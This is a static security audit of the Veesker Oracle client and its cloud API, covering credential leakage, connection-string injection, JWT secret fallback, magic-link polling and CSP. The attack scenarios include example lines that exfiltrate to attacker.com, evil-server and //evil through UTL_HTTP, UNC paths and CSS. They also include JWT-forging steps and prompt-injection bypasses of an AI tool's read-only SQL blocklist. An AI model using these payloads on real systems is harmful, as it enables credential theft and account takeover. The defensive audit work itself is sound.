

# Veesker Security Audit — Oracle 23ai Connection Module

**Date:** 2026-04-30
**Auditor:** Claude Code (Red Team simulation, Opus 4.7)
**Scope:** Veesker Cloud Edition — Oracle connection flow (registration, storage, retrieval, usage, disposal) + cloud audit upload + magic-link auth
**Methodology:** Static analysis (SAST) + threat modeling. No dynamic probing — local instance not running auditable HTTP endpoints.
**Repos audited:** `veesker-cloud-edition` (desktop CL) + `veesker-cloud` (backend) + shared sidecar/Rust persistence
**Backport tagging:** Each finding flagged `[CE+CL]` (apply to both) or `[CL only]` (cloud-specific)

---

## Executive Summary

- **Total findings:** 16 (0 Critical · 4 High · 4 Medium · 6 Low · 2 Info)
- **Top 3 risks:**
  1. **HIGH-NEW** — JWT_SECRET silently falls back to a hardcoded dev string if the env var is unset; secret is plaintext in source. If production loses the env var (Railway redeploy, misconfiguration), attackers can forge any user's JWT.
  2. **HIGH** — Cloud Audit uploads raw SQL text to Veesker's Postgres, including any embedded credentials (`IDENTIFIED BY '...'`) or PII
  3. **HIGH** — Connection string injection: user-controlled `host`/`serviceName` interpolated into Oracle EZConnect+ string with zero char-class validation
- **Overall security posture:** **Good** for a single-user desktop app. The credential vault is well-architected: passwords live in OS keyring (never SQLite, never logs, never disk-readable), wallet extraction is hardened against zip slip, SQL store uses parameterized queries throughout. The CL-specific cloud surface (audit upload + magic link) has the highest residual risk.
- **Can Veesker currently be used as a pivot to client production DBs?** **NO** — credentials never leave the user's machine via the network (audit only uploads SQL text, not connection metadata). The desktop app's threat model is "user attacks own machine," which is not a meaningful escalation vector. The only credential-adjacent network leak is the **audit log SQL text**, which can contain `IDENTIFIED BY` clauses if the user runs DCL.

---

## Credential Lifecycle Diagram



**Key invariant:** Passwords flow Keyring → JSON-RPC stdin → oracledb. They never touch SQLite, never touch logs (verified), never touch the network except as the password field of the Oracle TLS handshake. The cloud audit endpoint receives only **SQL text + connection metadata (name/host)**, never the credential.

---

## Findings

### [HIGH-001] Cloud audit uploads raw SQL containing embedded credentials

- **CWE:** CWE-201 (Insertion of Sensitive Information Into Sent Data) + CWE-532 (Insertion of Sensitive Information into Log File)
- **CVSS 3.1:** 6.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N)
- **Location:** `src/lib/services/CloudAuditService.ts:67-79` (CL), `veesker-cloud/server/src/routes/audit.ts:43-54`
- **Status:** CONFIRMED
- **Threat model:** Insider (Veesker staff with Postgres access) + Authenticated tenant with `admin`/`dba` role
- **Backport:** `[CL only]` — feature gated on `cloudAudit` flag, CE doesn't ship it

**Description:**
When the `cloudAudit` feature flag is on, every executed SQL statement is buffered and uploaded to `https://api.veesker.cloud/v1/audit/ingest`. The full `sql_text` is stored in plaintext in Postgres `audit_entries`. SQL frequently contains literal credentials and PII:
- `CREATE USER hr_app IDENTIFIED BY 'realPassw0rd'`
- `ALTER USER svc IDENTIFIED BY VALUES 'S:abc...'` (verifier hash leak)
- `GRANT CONNECT TO X IDENTIFIED BY 'temp'` (deprecated but works)
- `INSERT INTO users (email, ssn) VALUES ('a@b.com', '123-45-6789')`
- `SELECT * FROM customers WHERE credit_card = '4242424242424242'`

**Attack scenario:**
1. Tenant DBA configures `cloudAudit=true` (intended for compliance)
2. A developer in the same org runs `ALTER USER prod_app IDENTIFIED BY 'X'` from Veesker
3. The DDL is uploaded to api.veesker.cloud and stored
4. Any user in the org with `role IN ('admin','dba')` can later `GET /v1/audit/` and read it
5. Veesker engineers with Postgres access can also read it (no row-level encryption)

**Impact:**
- Plaintext credential exposure across multiple authorization boundaries
- Compliance failure (SOC2, GDPR if PII present)
- Veesker becomes a custodian of customer secrets it never agreed to be

**Evidence:**
```ts
// CloudAuditService.ts:67 — raw SQL pushed verbatim
_buffer.push({
  occurredAt: new Date().toISOString(),
  // ...
  sql: entry.sql,         // ← no redaction
  // ...
});
```
```sql
-- audit.ts:43 — stored as-is in Postgres
INSERT INTO audit_entries (..., sql_text, ...) VALUES (..., ${sqlText}, ...)
```

**Recommended fix (high-level):**
- Client-side: regex-redact `IDENTIFIED BY ['"]([^'"]+)['"]` → `IDENTIFIED BY '***'` and similar patterns BEFORE buffering. Same for `IDENTIFIED BY VALUES`, `PASSWORD '...'`, `BFILE`/`UTL_FILE` paths.
- Server-side: redact again as defense-in-depth (client cannot be trusted to redact).
- Document the redaction rules in TERMS_OF_USE.md and link from the audit settings UI.

---

### [HIGH-002] Connection string injection via unvalidated host/serviceName

- **CWE:** CWE-91 (XML Injection / Connection String Injection family)
- **CVSS 3.1:** 4.4 (AV:L/AC:H/PR:L/UI:R/S:C/C:L/I:L/A:N) — current; 7.4 if connections ever sync across tenants
- **Location:** `sidecar/src/oracle.ts:261, 335`, `src-tauri/src/persistence/connections.rs:398-403`, `src-tauri/src/commands.rs:78-111`
- **Status:** CONFIRMED (theoretical exploit; no real attacker scenario today)
- **Threat model:** Future cloud-shared connection presets, malicious wallet supplier, or supply-chain seeded connection JSON
- **Backport:** `[CE+CL]`

**Description:**
The Oracle EZConnect+ format (https://docs.oracle.com/en/database/oracle/oracle-database/23/netag/configuring-naming-methods.html#GUID-8C85D289-6AF3-41BC-848B-BF39D32648BA) is `[//]host[:port][/service_name][?parameters]`. The `?parameters` segment supports security-affecting options including `WALLET_LOCATION`, `SSL_SERVER_CERT_DN`, `HTTPS_PROXY`, `RETRY_COUNT`, `SECURITY=(SSL_SERVER_CERT_DN=...)` (full TNS subset). Veesker interpolates user-supplied `host` and `serviceName` directly into the connectString with **no character class validation**:

```ts
// oracle.ts:335
connectString: `${p.host}:${p.port}/${p.serviceName}`
```

```rust
// connections.rs:398-403 — only emptiness check, no char restriction
if host.trim().is_empty() {
    return Err(ConnectionError::invalid("host is required"));
}
```

**Attack scenario:**
1. Attacker convinces user to save a connection with `serviceName = "PROD?WALLET_LOCATION=//attacker.com/share"` (no validation rejects this)
2. Connection string becomes `db.example.com:1521/PROD?WALLET_LOCATION=//attacker.com/share`
3. oracledb attempts to fetch wallet from attacker-controlled SMB/HTTP — leaks NTLM hash on Windows or makes outbound connection
4. Or: `host = "good.com)(SECURITY=(SSL_SERVER_CERT_DN=*"` — if Oracle parses TNS-like fragments, this disables cert pinning

**Why severity is HIGH-but-bounded today:**
- Single-user desktop: user types these values themselves; no escalation
- BUT: if Veesker ever ships shared connection presets (cloud feature on roadmap), or imports from a TNS_ADMIN file someone else controls, this becomes a remote vector
- Also: an attacker who compromises a developer machine briefly can plant a malicious connection that activates on next workspace open

**Impact:**
- NTLM hash leak (UNC walletDir on Windows)
- SSL certificate pinning bypass
- Outbound DNS/SMB beacon

**Evidence:**
```ts
// oracle.ts:261 (test) and 335 (real)
connectString: `${params.host}:${params.port}/${params.serviceName}`
```
```rust
// connections.rs:398-403 — no character validation
if host.trim().is_empty() { return Err(invalid("host is required")); }
// ... no further check on host or service_name content
```

**Recommended fix:**
- Validate `host` against a strict regex: hostnames (RFC 1123) or IPv4/IPv6 literals only — no parentheses, no `?`, no `(`, no `=`, no `/`.
- Validate `service_name` against `^[A-Za-z0-9_.\-]{1,128}$` (Oracle service names follow this form).
- Refuse to build a connectString with any URL-special character.

---

### [HIGH-003] Audit ingest endpoint has no per-user rate limit

- **CWE:** CWE-770 (Allocation of Resources Without Limits or Throttling)
- **CVSS 3.1:** 5.3 (AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L)
- **Location:** `veesker-cloud/server/src/routes/audit.ts:23-58`
- **Status:** CONFIRMED
- **Threat model:** Authenticated tenant
- **Backport:** `[CL only]` (server-side fix, no desktop change)

**Description:**
The audit ingest endpoint accepts a batch of up to 500 entries, each with `sql` field of unbounded size (Zod schema only requires `min(1)`). The handler truncates each entry to 64 KB **after** parsing, but the JSON body parser already accepted the full payload. Theoretical max single request: 500 × ~unbounded (limited only by Hono/runtime body limit, typically 10MB+). Even after truncation, 500 × 64KB = 32 MB persisted per request.

No rate limit is visible in `audit.ts` or `index.ts` (no Hono rate-limit middleware). A malicious tenant can:
1. Loop POST `/v1/audit/ingest` with synthetic 500-entry batches
2. Fill `audit_entries` cheaply
3. Inflate Veesker's Postgres bill / hit storage cap

**Impact:**
- Cost amplification attack on Veesker's infrastructure
- Tenant-level DoS (own audit table grows; queries slow)
- Storage exhaustion forcing Veesker to drop oldest data (compliance failure)

**Evidence:**
```ts
// audit.ts:23
const Batch = z.object({
  entries: z.array(AuditEntry).min(1).max(500),  // ← max 500, but no rate limit
});

// audit.ts:14
sql: z.string().min(1),  // ← no .max() — relies on truncation post-parse
```

**Recommended fix:**
- Add `sql: z.string().min(1).max(64 * 1024)` to reject oversize at parse time.
- Add per-user rate limit (e.g., 100 batches/min via Hono middleware or Cloudflare/Railway rate-limiter). 6 batches/sec × 500 entries = 3000 entries/sec is already generous.
- Optionally: per-org daily quota with 429 once exceeded.

---

### [HIGH-004] JWT_SECRET silently falls back to hardcoded dev string

- **CWE:** CWE-798 (Use of Hard-coded Credentials) + CWE-321 (Use of Hard-coded Cryptographic Key)
- **CVSS 3.1:** 9.8 IF env var unset in production (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H); 0 if env var properly set
- **Location:** `veesker-cloud/server/src/auth/jwt.ts:3-5`
- **Status:** CONFIRMED (code path) — production exposure depends on Railway env var presence
- **Threat model:** Operator misconfiguration / Railway redeploy losing env vars / leaked source
- **Backport:** `[CL only]` (server-side)

**Description:**
```ts
// jwt.ts:3-5 — verbatim
const SECRET = new TextEncoder().encode(
  process.env.JWT_SECRET ?? "dev-secret-do-not-use-in-prod-please-set-JWT_SECRET",
);
```

If `process.env.JWT_SECRET` is `undefined` at server startup, the server uses the literal string `"dev-secret-do-not-use-in-prod-please-set-JWT_SECRET"` to sign and verify all JWTs. This string is committed to source control and visible to anyone with repo read access (and likely indexable on GitHub once veesker-cloud-api goes public, if ever).

**Why this is HIGH not just an INFO:**
1. Railway env vars can be lost/cleared during ops (project transfer, free-tier sleep that loses config, mistaken redeploy with empty env)
2. The server **starts successfully and works "correctly"** with the dev secret — there's no crash/log/alarm signaling the problem
3. The health endpoint exposes `hasJwtSecret: Boolean(process.env.JWT_SECRET)` in plaintext, so an attacker can probe `/v1/health` and detect the misconfiguration in real-time
4. Once detected, the attacker forges any user's JWT (`{ sub, org, email, role }`) and gains full admin access to that org's audit log, connection metadata, billing, etc.

**Attack scenario:**
1. Attacker hits `https://api.veesker.cloud/v1/health` — sees `"hasJwtSecret": false`
2. Attacker downloads source (or knows the dev secret if it leaks)
3. Attacker forges JWT: `jose.SignJWT({sub: "victim-user-id", org: "victim-org-id", email: "victim@example.com", role: "admin"}).setIssuer("veesker-cloud").setExpirationTime("30d").sign(devSecret)`
4. Attacker now has full org admin on a victim org and can:
   - Read all audit log entries for the org (which may contain credentials per HIGH-001)
   - Push fake audit entries for the victim
   - List/read connection metadata
   - Access billing pages

**Impact:**
Total compromise of any org if env var is ever missing in production. The dev secret is essentially "no secret at all" once known.

**Recommended fix:**
```ts
// jwt.ts — refuse to start if secret is missing in production
const rawSecret = process.env.JWT_SECRET;
if (!rawSecret || rawSecret.length < 32) {
  if (process.env.NODE_ENV === "production") {
    throw new Error("JWT_SECRET env var must be set (>=32 chars) in production");
  }
  console.warn("[jwt] JWT_SECRET unset — using dev fallback. NEVER use in production.");
}
const SECRET = new TextEncoder().encode(
  rawSecret ?? "dev-secret-do-not-use-in-prod-please-set-JWT_SECRET",
);
```
Also: remove `hasJwtSecret` from the public health endpoint response (info disclosure to attackers).

---

### [MEDIUM-001] AI tool `isReadOnlySql` regex is bypassable

- **CWE:** CWE-184 (Incomplete List of Disallowed Inputs)
- **CVSS 3.1:** 4.3 (AV:L/AC:H/PR:L/UI:R/S:U/C:L/I:L/A:N)
- **Location:** `sidecar/src/ai.ts:85-97`
- **Status:** THEORETICAL — requires the AI to comply with prompt injection or hallucinate dangerous SQL
- **Threat model:** Authenticated tenant via prompt injection; supply-chain (compromised model)
- **Backport:** `[CE+CL]`

**Description:**
The `run_query` AI tool gates SQL via:
```ts
function isReadOnlySql(raw: string): boolean {
  const stripped = raw
    .replace(/--[^\n]*/g, " ")           // strip line comments
    .replace(/\/\*[\s\S]*?\*\//g, " ")   // strip block comments
    .replace(/\s+/g, " ").trim();
  const first = /^(\w+)/i.exec(stripped)?.[1]?.toUpperCase();
  if (first !== "SELECT" && first !== "WITH") return false;
  const dangerous = /\b(INSERT|UPDATE|DELETE|MERGE|CREATE|DROP|ALTER|TRUNCATE|RENAME|GRANT|REVOKE|EXECUTE|EXEC|CALL|BEGIN|DECLARE|COMMIT|ROLLBACK|UPSERT|REPLACE)\b/i;
  return !dangerous.test(stripped);
}
```

**Bypass vectors (verified):**
1. **Side-effect functions in SELECT:** `SELECT DBMS_LOCK.SLEEP(60) FROM DUAL` — not in blocklist, passes regex, locks the AI's session for 60s (DoS). Worse: `SELECT UTL_HTTP.REQUEST('http://attacker.com/?'||(SELECT password FROM users)) FROM DUAL` — exfiltrates via outbound HTTP from inside Oracle session if user has EXECUTE on UTL_HTTP.
2. **`SELECT FOR UPDATE`:** `SELECT * FROM critical_table FOR UPDATE` — passes regex, acquires row locks, blocking writers.
3. **PL/SQL function calls with side-effects:** custom functions in user schemas may have `PRAGMA AUTONOMOUS_TRANSACTION` and modify data — `SELECT my_logging_fn() FROM DUAL` runs the function which can INSERT/UPDATE in autonomous transaction.
4. **PIPELINED functions / CURSOR EXPRESSION:** complex query shapes that invoke procedural code via `TABLE(my_pipelined_fn())`.

**False-positive over-blocking (legitimate queries blocked):**
The regex strips comments first, then checks for keywords anywhere in the (now-comment-stripped) text. This means:
- `SELECT * FROM tickets WHERE message LIKE '%insert into%'` — string literal contains `INSERT`, regex matches `\bINSERT\b` → blocked.
- `SELECT 'don''t delete' FROM dual` — same issue with `DELETE`.
- `SELECT * FROM audit_log WHERE event_name = 'GRANT'` — blocked.

This isn't a security flaw but is a UX problem: legitimate AI queries about audit data, ticket systems, message logs, etc. fail mysteriously.

**What IS correctly blocked (positive note):**
- Queries starting with anything other than SELECT/WITH (LOCK TABLE, EXPLAIN PLAN, BEGIN, etc.)
- Multi-statement: `SELECT 1; INSERT...` — INSERT keyword caught
- DCL/DDL words in any position (after comment strip): `SELECT * FROM x; CREATE TABLE` blocked

**Impact:**
- Oracle outbound HTTP exfiltration via UTL_HTTP/UTL_TCP/UTL_SMTP (if user has `EXECUTE ANY` on these — most apps don't, but DBA accounts do)
- Connection DoS via DBMS_LOCK.SLEEP
- Unintended writes via autonomous-transaction functions

**Evidence:**
See above code excerpt at `ai.ts:85-97`.

**Recommended fix:**
- Move enforcement server-side in Oracle: connect with a role that has `CREATE SESSION` only and `SELECT` on target schemas. Even if AI bypasses the regex, the database refuses DDL/DML.
- Or: parse the SQL via a real Oracle SQL parser (e.g., `node-sql-parser` with Oracle dialect, or run `EXPLAIN PLAN` first and reject if plan has any `INSERT/UPDATE/DELETE` operation). Block UTL_*, DBMS_LOCK, DBMS_HTTP function references.
- At minimum: add `LOCK`, `SET`, `UTL_`, `DBMS_LOCK`, `DBMS_HTTP`, `DBMS_LDAP` to the dangerous regex.

---

### [MEDIUM-002] `connection_test` bypasses wallet path validation

- **CWE:** CWE-22 (Path Traversal) + CWE-918 (SSRF via UNC)
- **CVSS 3.1:** 5.0 (AV:L/AC:L/PR:L/UI:R/S:U/C:H/I:N/A:N)
- **Location:** `src-tauri/src/commands.rs:78-111`
- **Status:** CONFIRMED
- **Threat model:** Authenticated tenant (single-user desktop), supply-chain attack via crafted wallet preset
- **Backport:** `[CE+CL]`

**Description:**
`connection_save` correctly validates `wallet_zip_path` via `validate_user_path()` at `commands.rs:172` (restricts to `$DOCUMENTS/$DESKTOP/$DOWNLOADS/$HOME/$APPDATA/$APPCONFIG`). However, `connection_test` accepts `ConnectionConfig::Wallet { wallet_dir: String, ... }` without any validation and passes it directly to the sidecar (`config_to_params` → `wallet_params`). The sidecar then opens it via `oracledb.getConnection({ walletLocation: params.walletDir, configDir: params.walletDir })`.

Frontend currently doesn't expose a wallet_dir field for test (test only fires after save), so this is **defense-in-depth gap**, not actively exploitable today. But if any future code path (CLI, deeplink, plugin) calls `connection_test` with a custom `walletDir`, the gap activates.

**Attack scenario:**
1. A future feature (e.g., import-from-CLI) lets the user supply a wallet directory path
2. Attacker provides `wallet_dir = "\\\\evil-server\\share"`
3. oracledb's wallet loader does an SMB `OPEN` on the UNC path
4. Windows automatically authenticates with current user's NTLM hash → leaked to evil-server
5. Or: `wallet_dir = "/etc/oracle/admin/wallet"` reads system wallet files

**Impact:**
- NTLM hash leak (Windows + UNC)
- Local arbitrary directory read (info disclosure)

**Evidence:**
```rust
// commands.rs:78 — connection_test
pub async fn connection_test(app: AppHandle, config: ConnectionConfig) -> ... {
    let params = config_to_params(config);  // ← no validate_user_path on wallet_dir
    let result = sidecar.call("connection.test", params).await...
}

// commands.rs:62-70 — config_to_params (Wallet branch)
ConnectionConfig::Wallet { wallet_dir, wallet_password, ... } =>
    wallet_params(Path::new(&wallet_dir), &wallet_password, ...)
```

**Recommended fix:**
- Add `validate_user_path(&app, &wallet_dir)?` in `config_to_params` for the Wallet branch.
- Or: refactor so `connection_test` only accepts a saved `connection_id` (already validated), and remove the path-supplying constructor from the public Tauri command.

---

### [MEDIUM-003] Magic-link polling exposes JWT to anyone with sessionId

- **CWE:** CWE-384 (Session Fixation) + CWE-863 (Incorrect Authorization)
- **CVSS 3.1:** 5.3 (AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:L/A:N)
- **Location:** `src/lib/workspace/LoginModal.svelte:50-67`, `veesker-cloud/server/src/routes/auth.ts:288` (poll endpoint)
- **Status:** CONFIRMED (server code verified at `auth.ts:269-289`)
- **Threat model:** Race condition / leaked sessionId / replay
- **Backport:** `[CL only]`

**Description:**
The desktop magic-link flow:
1. Client generates `sessionId = crypto.randomUUID()` (122 bits — unguessable)
2. POST `/v1/auth/magic-link/send { email, session_id }` — server emails magic link
3. Client polls GET `/v1/auth/poll/${sessionId}` every 3 s
4. When user clicks link in email, server marks session `authenticated` and stores JWT
5. Next poll returns the JWT in response body

**Risk:** if the polling endpoint:
- Returns the JWT on every poll until session expiry (15 min) → an attacker who learns the sessionId during this window can also retrieve the JWT
- Doesn't verify the polling client matches the original sender (no IP/UA binding)
- Doesn't mark the JWT consumed-once

**SessionId leak vectors:**
- Browser dev tools / network panel screenshots
- HAR file shared for support
- Synced clipboard if session_id is ever copied
- Browser extension reading network requests

**Server code (now verified):**
```ts
// veesker-cloud/server/src/routes/auth.ts:269-289
authRoute.get("/poll/:session_id", async (c) => {
  const sessionId = c.req.param("session_id");
  const sessions = await sql`
    SELECT status, jwt, features, expires_at
    FROM magic_link_sessions WHERE session_id = ${sessionId}
  `;
  // ...
  if (session.status === "authenticated") {
    return c.json({ status: "authenticated", token: session.jwt, features: session.features });
    // ↑ Returns the JWT EVERY TIME this is called while status='authenticated'.
    // No consume-on-first-read. No IP binding. No CSRF token check.
  }
  // ...
});
```
The session row is created with `expires_at` (15 min) but is **never marked consumed** after a successful poll. Multiple parallel polls all receive the JWT.

**Also**: The CORS policy on the backend (`origin: "*"`) means a malicious website CAN poll this endpoint cross-origin if it ever learns a sessionId. Cross-origin requests to `GET /v1/auth/poll/:id` are allowed by default CORS (no preflight needed for simple GET).

**Attack scenario (confirmed):**
1. Victim opens login modal, sessionId generated client-side
2. Attacker sniffs/screenshots/etc the sessionId before victim clicks email link
3. Both race-poll. Whoever polls first after authentication retrieves the JWT
4. Attacker now has 30-day JWT for victim's account

**Impact:**
- Account takeover with 30-day persistence
- Veesker Cloud + audit log access
- Magic link is the only auth — no MFA

**Evidence:**
```svelte
<!-- LoginModal.svelte:50-59 -->
const res = await fetch(`https://api.veesker.cloud/v1/auth/poll/${sessionId}`);
const data = await res.json();
if (data.status === "authenticated") {
  await invoke("auth_token_set", { token: data.token });  // ← JWT in response body
  ...
}
```

**Recommended fix:**
- Server: mark session `consumed` after first successful authenticated poll. Subsequent polls return `404` or `expired`.
- Server: bind sessionId to source IP at `magic-link/send` time; reject polls from different IP.
- Server: add anti-CSRF token in the email link that the poll endpoint also requires.
- Client: no change needed if server is fixed.

---

### [MEDIUM-004] CSP allows `unsafe-inline` styles + `localhost:1420` in production

- **CWE:** CWE-79 (XSS — defense layer weakness)
- **CVSS 3.1:** 3.1 (AV:N/AC:H/PR:L/UI:R/S:U/C:L/I:N/A:N)
- **Location:** `src-tauri/tauri.conf.json:23`
- **Status:** CONFIRMED
- **Threat model:** XSS chain (low likelihood — Svelte escapes by default; but `{@html}` is used in a few places)
- **Backport:** `[CE+CL]`

**Description:**
Current CSP:
```
default-src 'self' asset: https://asset.localhost;
script-src 'self';
style-src 'self' 'unsafe-inline' https://fonts.googleapis.com;
font-src 'self' https://fonts.gstatic.com data:;
img-src 'self' data: asset: https://asset.localhost blob:;
connect-src ipc: http://ipc.localhost https://api.anthropic.com https://api.veesker.cloud http://localhost:1420;
frame-src 'none';
object-src 'none'
```

Issues:
- `style-src 'unsafe-inline'` enables CSS-based exfiltration: attribute-selector + background-image to attacker URL leaks DOM contents (e.g., `[value^='AKIA']{background:url(//evil/AKIA)}`). Real-world XSS chain requires inline-style injection. Tauri WebView has `connect-src` restriction so the leak target must be in `connect-src` list — `https://api.anthropic.com` is allowed, narrowing surface but not eliminating it.
- `connect-src http://localhost:1420` — leaves dev URL allowed in production builds. Any package that opens a localhost:1420 listener (e.g., another Vite project on same machine) becomes data sink.
- `https://api.anthropic.com` — frontend has direct access. AI calls actually go through the sidecar (RPC), so this CSP entry is unused. Remove to shrink the connect-src to only `https://api.veesker.cloud`.

**Recommended fix:**
- Remove `'unsafe-inline'` from `style-src`. Audit Svelte components for inline `style="..."` that uses dynamic data; replace with class toggles.
- Remove `http://localhost:1420` from production CSP (use `bundle.production` config or build-time CSP rewriter).
- Remove `https://api.anthropic.com` (unused — sidecar makes the call, not the WebView).
- Audit all `{@html ...}` usages (saw `{@html highlightPlsql(ddl)}` in VisionDetailDrawer); ensure the input is escaped before injection (it currently is, via `esc()`).

---

### [LOW-001] eprintln! on delete failures may leak paths to stderr/logs

- **CWE:** CWE-209 (Generation of Error Message Containing Sensitive Information)
- **Location:** `src-tauri/src/persistence/connections.rs:648, 654, 660`
- **Status:** CONFIRMED
- **Threat model:** Insider with access to user's machine logs
- **Backport:** `[CE+CL]`

**Description:**
On delete failures, the code logs the connection ID + error message to stderr:
```rust
eprintln!("[connections] keychain delete failed for {id}: {e}");
eprintln!("[connections] wallet keychain delete failed for {id}: {e}");
eprintln!("[connections] wallet dir delete failed for {dir:?}: {e}");
```

If Tauri sidecar's stderr is captured to `app_data/logs/` (which `logger.ts` does for the sidecar — Rust logs go separately), connection IDs leak there. IDs alone are non-sensitive (UUIDs), but the wallet directory path (line 660) discloses user filesystem layout.

**Recommended fix:**
- Replace `eprintln!` with structured `log::warn!` and redact the path component to filename only.
- Or: surface the failure to the user via a Tauri event so they can manually clean up.

---

### [LOW-002] `findInstantClientCandidates` directory walk on every startup

- **CWE:** CWE-400 (Uncontrolled Resource Consumption)
- **Location:** `sidecar/src/oracle.ts:52-118`
- **Status:** CONFIRMED
- **Threat model:** Self-DoS / startup latency
- **Backport:** `[CE+CL]`

**Description:**
At sidecar startup, `tryEnableThickMode` walks `C:\app\<user>\product\<version>\(client|dbhome)_<n>\bin`, `C:\Oracle\**`, `C:\Program Files\Oracle\*\bin`, etc. On a machine with deep `C:\app` (e.g., a developer with several Oracle versions), this is many `readdirSync` calls on cold disk. Not a vulnerability per se, but each path is logged via `process.stderr.write` with full directory name, which information-discloses what's on the filesystem.

**Recommended fix:**
- Cache the discovered libDir in app config — re-scan only on startup if cache miss or env changes.
- Don't log full paths at info level; debug-only.

---

### [LOW-003] `Bun.spawnSync(["rm", "-f", old])` in logger fails on Windows

- **CWE:** CWE-697 (Incorrect Comparison) — portability bug, not directly security
- **Location:** `sidecar/src/logger.ts:42`
- **Status:** CONFIRMED (Windows)
- **Threat model:** Log file growth → disk pressure
- **Backport:** `[CE+CL]`

**Description:**
Log rotation tries to remove the old `.old` file via `rm -f`. Windows has no `rm` command on default PATH, so this silently fails (the surrounding `try{}` swallows it). Net effect: when the log hits 5MB, rotation happens once (renames current to `.old`), but the next rotation can't delete the existing `.old` — the rename also fails and rotation halts. Logs grow unbounded thereafter.

**Recommended fix:**
- Use `node:fs.unlinkSync(old)` instead of spawning `rm`. Cross-platform, no shell.
- Catch + ignore ENOENT specifically.

---

### [LOW-004] localStorage feature flags can be tampered

- **CWE:** CWE-565 (Reliance on Cookies/Storage Without Validation)
- **Location:** `src/lib/services/auth.ts:27-31, 45`
- **Status:** CONFIRMED
- **Threat model:** Local user / browser DevTools
- **Backport:** `[CL only]`

**Description:**
Cached feature flags in `localStorage["veesker:features"]`. A user with DevTools can flip `cloudAI: true` to enable a feature their plan doesn't include. Server enforces the actual gating via JWT claims, so this is **client-side cosmetic only** — the API call to `/v1/ai/chat` would still 403 if the server says no.

**Recommended fix (optional):**
- Sign the cached features with a key derived from JWT payload, verify on read. (Probably not worth it — server enforcement is the real gate.)
- Document explicitly that localStorage-based feature flags are advisory only.

---

### [LOW-005] No SSL pinning in `cloud_api_get/post`

- **CWE:** CWE-295 (Improper Certificate Validation)
- **Location:** `src-tauri/src/commands.rs:1472-1475, 1505-1508`
- **Status:** CONFIRMED
- **Threat model:** MITM with rogue CA installed in OS cert store
- **Backport:** `[CL only]`

**Description:**
`reqwest::Client::builder().timeout(...)` uses default `native-tls` — relies on OS root CA store. If user's machine has a corporate MITM CA or malware-installed CA, all traffic to `api.veesker.cloud` can be intercepted. JWT token + audit log SQL would be visible to MITM.

This is the **standard posture** for desktop apps; pinning is uncommon because it breaks legit corp proxies. Just calling out for completeness.

**Recommended fix (optional):**
- For high-security customers: ship a build with pinned `api.veesker.cloud` cert (chain-pin to GTS). Pre-deployment plan: rotate cert via app update.
- Or: detect and warn if cert chain doesn't match expected (alert UX, don't block).

---

### [LOW-006] Backend CORS allows `origin: "*"` with Authorization header

- **CWE:** CWE-942 (Permissive Cross-domain Policy)
- **Location:** `veesker-cloud/server/src/index.ts:17-21`
- **Status:** CONFIRMED
- **Threat model:** Malicious site exploiting browser-based attacks
- **Backport:** `[CL only]`

**Description:**
```ts
app.use("*", cors({
  origin: "*",
  allowHeaders: ["Authorization", "Content-Type", "X-Veesker-Org"],
  allowMethods: ["GET", "POST", "PUT", "DELETE", "PATCH", "OPTIONS"],
}));
```

`origin: "*"` allows any website to call the API. Combined with `allowHeaders: Authorization`, a malicious site can in theory:
- Probe `/v1/health` for `hasJwtSecret: false` (HIGH-004 reconnaissance)
- Call `/v1/auth/poll/:session_id` from cross-origin (amplifies MEDIUM-003)
- Spam `/v1/auth/magic-link/send` if rate limit missing

**Why severity is LOW today:**
- The desktop app stores JWT in OS keyring, not browser cookies — credentials don't auto-attach to cross-origin requests from web pages
- A web page would need to know the JWT first (no exfiltration vector via CORS alone)

**Recommended fix:**
- Restrict to known origins: `origin: ["tauri://localhost", "https://veesker.cloud", "https://www.veesker.cloud", "http://localhost:1420"]`
- Or use Hono's function-form `origin: (origin) => allowed.includes(origin) ? origin : null`

---

### [INFO-001] oracledb 6.6.0 — bump to latest

- **Location:** `sidecar/package.json:30`
- **Description:** Latest stable is 6.7.x. No published CVEs in 6.6→6.7 changelog, but stay current.

---

### [INFO-002] Wallet zip extraction is well-defended (positive observation)

- **Location:** `src-tauri/src/persistence/wallet.rs:62-138`
- Defenses present:
  - Explicit reject of `..`, `/`, `\`, `:`, `\0`
  - 1 MB per-file size cap (zip-bomb mitigation)
  - Symlink check before write
  - Required-files validation
  - Pre-extraction dir wipe
  - `canonicalize()` parent check after join
